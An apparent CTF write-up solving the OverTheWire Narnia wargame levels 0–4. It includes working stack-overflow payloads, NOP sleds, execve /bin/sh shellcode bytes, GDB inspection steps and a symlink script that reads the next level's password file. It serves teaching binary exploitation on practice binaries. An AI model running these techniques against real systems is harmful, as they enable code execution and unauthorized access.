 # Binary Exploitation/Pwn challenges from OverTheWire

<div align="justify">

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

## Narnia2

The buffer is `char buf[128]` and the function we will exploit will be `strcpy(buf,argv[1]);`.
In order to see where is the range of address we can fall in using a **NOP-Sled**, first of all we have to fill the buffer with 128 "A", inside GDB.
Note the breakpoint at *strcpy*

```console
narnia2@narnia:~$ gdb narnia2
```

```bash
b strcpy
run $(python -c 'print 128 * "A" + "BBBB"+ "CCCC"') #where B is the $ebp and C is the ret address
x/700xw $esp #analyzing the stack to detect "AAAA" B(41414141)
```

With GDB we see that in the stack we have "CCCC" in the **return address** of strcpy, then here we will put our middle-address of the  **NOP-Sled**. Again, any [shellcode](https://www.exploit-db.com/shellcodes/47513) can be used if it is small enough to fit into the NOPs.

`shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

`return address="\x4c\xd8\xff\xff"`

Number of NOPs = **128**(buff) - **25**(shellcode) + **4**($ebp) = 107

Let's run the program with:

```bash
./narnia2 $(python -c 'print 107 * "\x90" + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"+"\x4c\xd8\xff\xff"')
```

## Narnia3

In the stack are allocated `char ofile[16] = "/dev/null"` and `char ifile[32]` and there is also a `strcpy(ifile, argv[1])` that copies in ifile argv[1]. Looking at the stack we can see that the two buffers are one above the other, then writing to **ifile** (strcpy doesn't check the length) also **ofile** can be written.
You can analyze the stack using:

```console
narnia3@narnia:~$ gdb narnia3
```

`run AAAAAAAAAAAAAAAAAAAAAAAAAAA`

`b open@plt`

`x/700xw $esp`


argv[1] will be:
`/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile`

Now you can set up your files and folder in your filesystem:

**Copy this in /tmp/yourscript.sh**

```bash
#!/bin/bash

mkdir /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/

touch /tmp/yourfile

chmod 777 /tmp/yourfile

ln -s /etc/narnia_pass/narnia4 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

/narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

cat /tmp/yourfile
```

>The directory "AAAAAAAAAAAAAAAAAAAAAAAAAAA" could be already created due to the number of the players in the server. You can create your own 32-bytes long directory with any character you want.

## Narnia4

This challenge is similar to Narnia2, so also here we have a char </span> `buffer[256]` that we must overflow to overwrite the `strcpy(buffer,argv[1])` return address, but the main difference is that here there are also other buffer of strings to overwrite before we can change it.
  
First of all we must see when the program goes in segmentation fault: with some test using

  ```console
  narnia4@narnia:~$ ./narnia4 $(python -c "print('A'*$i)")
  ```

we understand that giving at $i the value of 264 it explodes so the EBD was overwritten.

Now we search the return address the we'll insert instead of that of strcpy (searching when the '\x41' are), we'll use gdb:

  ```console
  narnia4@narnia:~$ gdb narnia4
  ```

  `run $(python -c "print('A'*226)")`

  `b strcpy@plt`

  `x/700xw $esp`

We choose an address in the middle to use the NOP-Sled.

We'll use the same shellcode the we used in Narnia2:

  `shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

Now we can prepare the argv[1] to pass to the program: 239 bytes of '\x90' + 25 bytes of shellcode and finally the 4 bytes of the return addess:

  ```bash
  ./narnia4 $(python -c "print('\x90'*239+'\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80'+'\x18\xd8\xff\xff')")
  ```

</div>
